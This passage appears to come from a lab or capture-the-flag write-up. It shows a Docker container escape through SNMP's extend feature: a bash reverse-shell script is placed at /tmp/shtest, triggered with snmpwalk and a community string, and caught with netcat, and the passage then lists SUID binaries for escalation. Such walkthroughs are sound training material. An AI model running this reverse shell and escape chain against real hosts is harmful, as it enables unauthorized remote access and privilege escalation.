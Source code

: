 The query seems work, returning a Hello, World! string (which we discovered in the extend functionality of the .snmpd.conf file). This means that we can use this query to execute commands on the target.

In the config file, we also determined that the daemon is executing /tmp/shtest (which is the default in SNMP). We also know that tmpfs is already mounted on the /tmp directory of our container. This all suggests that we should be able to get a shell on the host.
Docker Container Escape via SNMP

Let's navigate to the /tmp directory, create a simple bash reverse shell named shtest (which is what SNMP is looking for), and make it executable.

$ cd /tmp
$ echo 'bash -c "bash -i >& /dev/tcp/192.168.118.3/4444 0>&1"' > shtest
$ chmod +x shtest

Next, we'll set up a new netcat listener on port 4444 and trigger the reverse shell with the same snmpwalk query.

kali@kali:~$ snmpwalk -v2c -c 53cur3M0NiT0riNg 192.168.120.138 nsExtendOutput1
Bad operator (INTEGER): At line 73 in /usr/share/snmp/mibs/ietf/SNMPv2-PDU
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
Timeout: No Response from 192.168.120.138
...

Now, we have a reverse shell as Debian-snmp on the host itself:

kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.138: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.138] 44310
bash: cannot set terminal process group (711): Inappropriate ioctl for device
bash: no job control in this shell
Debian-snmp@escape:/$ id
id
uid=111(Debian-snmp) gid=115(Debian-snmp) groups=115(Debian-snmp)
Debian-snmp@escape:/$ hostname
hostname
escape

Escalation
SUID Enumeration

Having obtained a shell on the host, let's enumerate SUID permissions.

Debian-snmp@escape:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/logconsole
/usr/bin/sudo
/usr/bin/at
/usr/bin/chfn
/bin/fusermount
/bin/umount